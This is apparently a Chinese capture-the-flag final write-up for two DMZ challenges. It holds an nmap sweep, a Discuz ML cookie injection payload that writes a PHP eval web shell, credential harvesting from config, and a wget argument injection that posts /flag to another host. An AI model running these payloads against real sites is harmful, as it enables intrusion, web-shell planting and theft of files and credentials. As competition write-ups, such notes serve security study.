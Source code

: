 # 深育杯决赛-Writeup

## DMZ-01

扫ip

```
Nmap scan report for 10.10.14.1
Host is up (0.042s latency).
Nmap scan report for 10.10.14.33
Host is up (0.049s latency).
Nmap scan report for 10.10.14.54
Host is up (0.043s latency).
Nmap scan report for 10.10.14.109
Host is up (0.047s latency).
Nmap scan report for 10.10.14.182
Host is up (0.044s latency).
Nmap scan report for 10.10.14.233
```

10.10.14.33直接拿Discuz ML的洞打

```
oZpe_2132_language='.file_put_contents('shell.php',urldecode('%3C%3Fphp%20eval(%24_%2550%254f%2553%2554%5B0%5D)%3B%3F%3E')) .';
```

拿到shell后读`/flag`然后找到config中的数据库密码即可。



## DMZ-04

10.10.14.54:8080是题目的服务，陇原战役的原题，但是似乎不出网，利用web1来接收flag即可：

![image-20220625135433923](%E6%B7%B1%E8%82%B2%E6%9D%AF%E5%86%B3%E8%B5%9B-Writeup.assets/image-20220625135433923.png)

```
GET /wget?argv=1&argv=2&argv=--post-file&argv=/flag&argv=http://172.16.8.33/post.php
```

